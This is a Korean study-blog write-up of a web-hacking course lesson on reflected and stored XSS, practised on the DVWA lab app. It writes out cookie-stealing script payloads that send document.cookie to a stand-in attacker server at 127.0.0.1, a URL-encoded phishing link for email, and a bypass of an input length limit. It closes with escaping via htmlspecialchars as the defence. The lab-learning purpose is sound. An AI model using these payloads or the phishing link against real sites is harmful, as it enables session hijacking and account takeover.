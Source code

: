 ```yaml
---
title:  '[강의] 6주차 웹 해킹- 웹 해킹 기술 탐색 5'
excerpt: "week6"

categories:
  - study
  - hacking
tags: [study, virtualbox, kalilinux, hacking]

last_modified_at: 2021-07-31T08:06:00-05:00
classes: wide
--- 
```


### 8주간의 해킹 스터디 번째 시간

6주차 스터디😽😽😽

강의링크는 오른쪽! => [goormedu](https://edu.goorm.io/lecture/4953/화이트해커가-되기-위한-8가지-웹-해킹-기술)

<br>

이번 시간은 스크립트 코드 삽입을 통해 개발자가 고려하지 않은 기능이 작동하게 하는 치명적인 공격인 **크로스사이트스트리밍(XSS) 공격**에 대해 알아보겠습니다. 

<hr>

### XSS 공격

XSS공격에 대해 알아보기 전 XSS에서 사용하는 언어인 **자바스트립트 언어**에 대해서 알아보도록 합니다 🙋🏽!!

#### - 자바스크립트 (JS)

웹어플리케이션에서 사용되는 언어 HTML과 자바스크립트로 이루어져있음

> HTML : 텍스트, 이미지 등 정적인 내용 표시
> 
> 자바스크립트 : 동적인 기능을 구현 ( ex) 마우스를 가져가면 메뉴의 색이 변하는 것 )

JS 사용 방법!
~~~
<script>  script code    </script>
~~~ 


#### XSS 공격이란?

클라이언트 쪽의 웹브라우저를 공격하는 기법이다. 

만약 어떤 웹브라우저 기능이 입력값을 그대로 출력하는 것이라면, <script>와 같은 입력값이 그대로 웹페이지에 표시되면 위험하다. 
  
해커는 이 자바스크립트를 이용해 세션 쿠키를 알아내 탈취하게 되는 것이다.

#### XSS공격 2가지
> 1. reflected XSS
>
> 2. stored XSS
  
<br>
  
#### 1. Reflected XSS 공격
 
reflected는 script를 반사하기 때문에 붙여진 이름이다. 공격 순서를 알아보도록 한다.

먼저 해커가 한 사용자에게 이메일 등으로 피싱을 한다.
  
![1](https://user-images.githubusercontent.com/53431568/127724126-1218ea01-9dec-4acc-89d2-931aaaed49aa.PNG)

<br>
  
이때, 사용자가 피싱에 속아 클릭을 하게 되면 스크립트 코드가 삽입된 요청이 전송된다.
  
![2](https://user-images.githubusercontent.com/53431568/127724129-3d0a9ede-6cea-426b-8886-a526547ca6ad.PNG)

<br>
  
웹 어플리케이션은 스크립트 코드를 반사시켜 그대로 되돌려준다. 이렇게 되면 웹 브라우저는 스크립트를 실행하게 되고 얻어낸 쿠키를 해커에게 전달하게 된다.

![3](https://user-images.githubusercontent.com/53431568/127724134-af31a433-2e05-479d-8d6a-18a293cd9062.PNG)

<br>

해커가 얻어낸 세션 쿠키를 사용되면 해당 사용자의 계정으로 접속할 수 있게 된다.
  
![4](https://user-images.githubusercontent.com/53431568/127724131-8e03fa4f-29b5-49f3-88fc-a93cbb1da238.PNG)

  
  
#### 2. Stored XSS 공격

script코드가 한 번 저장되었다가 나중에 실행되는 공격!
  
먼저, 해커가 피싱을 하는 것이 아니라 서버의 게시판이나 방명록 같은 곳에 스크립트 코드를 남긴다.
  
![image](https://user-images.githubusercontent.com/53431568/127724500-9e13c762-5561-4e5f-9621-20b171b958b1.png)

<br>

이후 사용자가 방명록에 접속해 글을 읽게 되면 글을 읽은 사용자에게 스크립트 코드가 실행된다.

![image](https://user-images.githubusercontent.com/53431568/127724518-56784bb0-41e9-4ef1-8160-fccd2e574f91.png)

<br>
  
이 이후는 reflected XSS 공격과 같이 쿠키값이 해커에게 전달되고 해커는 해당 사용자의 계정으로 접속할 수 있게 된다.

![image](https://user-images.githubusercontent.com/53431568/127724536-c2e840d8-a148-470f-8a89-56f7bc683d8c.png)

 
### XSS 공격 실습 🚀
#### 1. Reflected XSS

먼저, `low`단계에서 실습! XSS(Reflected) 메뉴로 가면 다음과 같이 이름을 입력하는 웹브라우져가 실행된다.

![image](https://user-images.githubusercontent.com/53431568/127726951-17cb7939-486a-4efc-9275-4fcf6591b1fa.png)

이름을 입력하니 입력한 값이 다시 리턴되는 것을 볼 수 있다.

![image](https://user-images.githubusercontent.com/53431568/127727006-15841c20-3608-4aee-9286-1eb2a12449a1.png)

XSS 취약점을 찾기 위한 가장 간단한 방법은 script 태그를 입력폼에다 입력하는 것이다! 
  
`<script>alert(1)</script>`  명령어를 입력하니 다음과 같이 알림창이 뜨는 것을 확인하였다!! 이를 통해서 해커는 reflected xss 공격이 가능하다는 것을 파악하게 된다.  

![image](https://user-images.githubusercontent.com/53431568/127727055-81d832b0-9b44-4dbd-9ee4-3b72247a8a09.png)

이번에는 쿠키값을 알아보자!
  
`<script>alert(document.cookie)</script>` 입력하니 쿠키의 값이 출력되었다. 

![image](https://user-images.githubusercontent.com/53431568/127727115-08e82497-fe2e-4317-9d21-c1948b7314a4.png)


<br><br>

이번에는 알아낸 쿠키값을 해커가 관리하는 시스템과 같은 다른 시스템에 전달해보자!!!

먼저 터미널을 켜고 `tail -f /opt/lampp/logs/acess_log` 명령어를 통해 해커 호스트의 웹서버의 로그가 출력되는 것을 확인하고, 이후 발생하는 로그도 계속 확인하도록 한다.

![image](https://user-images.githubusercontent.com/53431568/127727168-3cb70cb9-fe82-42fa-8bea-0cdee6504cb0.png)

다음으로  `<script>document.location='http://127.0.0.1/cookie?'+document.cookie</script>` 명령어를 reflected xss의 입력창에 입력해준다.

> 명령어를 해석하면, document.loaction은 뒤에 나오는 127.0.0.1 인 (지금 해커사이트라고 가정하는 주소)에 리다이렉트를 시켜주며, document.cookie 명령어를 이용해 cookie값을 찍어오게 된다.

아래 이미지를 보니, 입력한 후 터미널에 쿠키값이 넘겨진 것을 확인할 수 있다.  
  
![image](https://user-images.githubusercontent.com/53431568/127727310-fb7ec7ab-6814-40ce-b007-454e63ddb0da.png)
  

  <br>
  <br>
  
  
그런데 드는 의문이.. 개발자도 아니고 어떤 사용자가  <script></script> 를 직접 입력하려나..?! 😅😅😅

따라서 해커는 피싱을 이용해서 사용자가 자기도 모르는 새에 걸려들도록 한다고 한다! ㅎㅎ 그렇다면 간단한 피싱용 메일을 만들어보자!

처음과 같이 이름을 입력하고 이번에는 주소창을 주목! 파라미터 값으로 이름이 전달되는 것을 확인할 수 있다. 이름과 #을 제외한 주소를 복사하자! ctrl + v!  
  
  ![image](https://user-images.githubusercontent.com/53431568/127727435-ccef162e-0164-427b-9614-02ab7cc07f10.png)

  <br>  
  
  이제 피싱링크를 넣을 건데 아까 복사한 주소 뒤에 다음 명령어를 붙여준다. `<script>document.location%3D'http://127.0.0.1/cookie%3F'%2Bdocument.cookie</script>`
  
  뭔가 이상함을 감지했나요?! ㅎㅎ `= , ? , + ' 라는 문자들이 '%3F, %3F, %2B` 로 인코딩되었습니다. 이 이유는  gmail에서 링크를 삽입할때는 url인코딩 기법을 이용해서 인코딩을 거쳐야 하기 때문입니다.!!  주의주의~ 😊😊
  
  
  최종적으로 입력해야할 링크 코드는 다음과 같다.
  
  ~~~javascript
  http://localhost/dvwa/vulnerabilities/xss_r/?name=<script>document.location%3D'http://127.0.0.1/cookie%3F'%2Bdocument.cookie</script>
  ~~~
  
![image](https://user-images.githubusercontent.com/53431568/127727655-9fdc0205-7917-450e-85bf-41ddbfbe517a.png)

위와 같이 했다면 이메일을 보내고 체크! 내가 보낸 메일을 열고 링크를 클릭하니 아까와 같이 터미널 창에 쿠키값이 전달되는 것을 확인할 수 있었다.

![image](https://user-images.githubusercontent.com/53431568/127727771-cec42aa0-36b8-482e-b8fa-6c518d4eb2d4.png)

<br><br>
  
#### 2. Stored XSS
  
이 공격은 해커가 스크립트 코드를 서버에 직접 삽입해 웹 페이지 자체에서 실행된다. 때문에 해당 페이지를 방문하는 모든 사용자가 위험에 노출되는 무서운 공격이다.

dvwa의 Stored XSS 메뉴로 들어가면 방명록을 작성하는 것과 같은 페이지를 보게되는데 이때, 테스트 텍스트를 넣어보자! 나는 다음과 같이 아까 사용한  `<script>document.location='http://127.0.0.1/cookie?'+document.cookie</script>` 코드를 입력하니 뒤에 글자 제한 때문에 코드가 잘린 것을 볼 수 있었다. 
  
![image](https://user-images.githubusercontent.com/53431568/127727913-e7cf860b-e476-4070-877c-c26deb1f8fc5.png)

이런 글자 수 제한은 간단히 우회할 수 있는데.. 입력창에서 마우스 오른쪽 클릭을 한 후 `inspect element`를 보면 아래에 창이 뜬다. 자세히 보면 maxlength 라는 파라미터가 있는데 이 값을 변경해 주면된다.!


나는 50-> 500으로 넉넉히 변경해주었다. 이제 입력이 가능하다! 

![image](https://user-images.githubusercontent.com/53431568/127727995-1e97c99b-6f2e-4f22-8dbc-626dbbb56fbb.png)

방명록에 입력후 버튼을 누르자 마자 바로 스크립트가 실행된다. 이는, 이 글이 있는 방명록 페이지에 접속하자 마자 스크립트가 실행되는 것이다. 

![image](https://user-images.githubusercontent.com/53431568/127728071-7b2d8eb7-32f2-4e72-88ba-6f3e3647a88a.png)

터미널을 확인하니 페이지에 방문하기만 해도 쿠키값이 넘어가는 것을 확인할 수 있었다.

![image](https://user-images.githubusercontent.com/53431568/127728104-96a029ea-da93-4bb9-8d4d-0a828d2fe204.png)

이런식으로 해커는 하나의 공격으로 다수의 사용자들을 공격할 수 있게 된다. 

<br><br>
  
### XSS 공격 대응 👨‍🏫

impossible 단계의 소스코드를 보면서 알아보자
  
![image](https://user-images.githubusercontent.com/53431568/127728266-50c4bf64-d38b-4f00-b04d-5fae57d83e74.png)
  
소스코드를 보니 `htmlspecialchars` 라는 함수를 사용하는데 이 함수는 몇몇 함수를 html entity 라는 것으로 변경하는 함수이다.
  
이를 통해서 페이지 상에서는 script 코드가 그냥 들어간 것 같지만 뒤에서는 이 코드를 **`다른 문자로 변경하여 실제로 코드 실행을 방지`**할 수 있게 한다.

실제로 restored reflect 페이지에서 `<script>document.location='http://127.0.0.1/cookie?'+document.cookie</script>`를 submit 한 수, 페이지 빈 공간에서 
오른쪽 클릭을 한 후 View source를 확인해보면..
  
  ![image](https://user-images.githubusercontent.com/53431568/127728429-ed9e35a5-4165-4455-86bf-556184084438.png)

  다음과 같이 몇몇 문자가 다른 문자로 바뀐 것을 확인할 수 있다! (`&lt` 와 같은 전혀 다른 일을 수행하는 명령어로 교체됨)

  ![image](https://user-images.githubusercontent.com/53431568/127728396-832a08f1-2f16-42b9-a171-9d9b9e493f67.png)

  
  
#### 이미지 출처
  
[https://edu.goorm.io/lecture/4953/화이트해커가-되기-위한-8가지-웹-해킹-기술](https://edu.goorm.io/lecture/4953/화이트해커가-되기-위한-8가지-웹-해킹-기술)
  
  
  
